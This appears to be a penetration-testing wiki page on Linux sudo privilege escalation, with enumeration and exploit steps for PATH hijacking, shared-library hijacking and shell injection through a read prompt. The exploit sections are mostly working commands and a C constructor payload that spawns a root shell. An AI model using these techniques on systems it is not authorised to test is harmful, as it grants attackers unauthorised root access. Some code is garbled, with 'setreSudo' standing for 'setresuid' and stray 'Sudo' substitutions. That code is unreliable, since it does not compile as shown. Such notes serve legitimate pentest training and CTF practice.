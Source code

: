 # SUDO Binaries

## Theory

sudo is a widely used tools that allows regular users to execute commands with elevated privileges on Linux. Privileges escalation can occur if the binaries that you can run with sudo is not properly setup

## Practice

### Known Sudo Binaries Exploits

{% tab title="GTFOBins" %}
If you find that a binary have the Sudo bits, you can check on [GTFOBins](https://gtfobins.github.io/) for known Sudo exploits.
{% endtab %}
{% endtabs %}

### Relative Path Exploit

{% tabs %}
{% tab title="Enumerate" %}
If a **Sudo** binary executes another command **without specifying the full path.** We can abuse it and get a privilege escalation.

You may use `strings` to spot other binaries calls, or do some reverse engineering on the **Sudo** binary.

```bash
strings ./the-sudo-bin

...
find
...
```
{% endtab %}

{% tab title="Exploit" %}
We can create a malicious executable with the same name as the one called by the **Sudo** binary.

```bash
echo '/bin/bash -p' > /tmp/find
chmod +x /tmp/find
```

\
Then, set the **PATH** env variable before executing the Sudo binary.

```bash
#Sudo with modified PATH
export PATH=/tmp:$PATH 
./the-sudo-bin
```
{% endtab %}
{% endtabs %}

### Shared Library Hijacking

{% tabs %}
{% tab title="Enumerate" %}
If you find some binary with **Sudo** permissions, you could check if all the **.so** files are **loaded correctly**

```bash
strace the-sudo-bin 2>&1 | grep -i -E "open|access|no such file"
```

You also could check if the **Sudo** binary is loading a library from a folder **where we can write**:

```bash
# Lets find a Sudo using a non-standard library
ldd the-sudo-bin
something.so => /lib/x86_64-linux-gnu/something.so

# The Sudo also loads libraries from a custom location where we can write
readelf -d the-sudo-bin | grep PATH
0x000000000000001d (RUNPATH)            Library runpath: [/development]
```

Alternatively, you could use the `strings` command to find used shared library

```bash
strings ./the-sudo-bin | grep -i '*.so*'
```
{% endtab %}

{% tab title="Exploit" %}
For example, if you find that the **Sudo** binary **doesn't** **load correctly** _`/home/user/.config/libcalc.so`_ or that you can overwrite it, you can exploit it.

Write a malicious shared library

```c
//Saved to /home/user/.config/libcalc.c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        setreSudo(0,0,0);
        system("/bin/bash -p");
}
```

Compile it

```bash
gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c
```

Execute the Sudo binary

```bash
sudo ./the-sudo-bin
```

{% hint style="info" %}
If you get an error such as

```shell-session
./Sudo_bin: symbol lookup error: ./Sudo_bin: undefined symbol: a_function_name
```

that means that the library you have generated need to have a function called `a_function_name`.
{% endhint %}
{% endtab %}
{% endtabs %}


### Shell In Prompt

{% tabs %}
{% tab title="Enumerate" %}
If a **Sudo** script executes `read -p`. We can input `/bin/bash -i` to get a shell as another user.

```bash
$ cat /usr/bin/sudo-script.sh

#!/bin/bash
read -p "What's you name: "
```
{% endtab %}

{% tab title="Exploit" %}
We can input `/bin/bash -i` to get a shell.

```bash
$ sudo /usr/bin/sudo-script.sh

What's you name: /bin/bash -i
```
{% endtab %}
{% endtabs %}

### References

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#sudo" %}

{% embed url="https://tryhackme.com/room/linuxprivescarena" %}

{% embed url="https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/" %}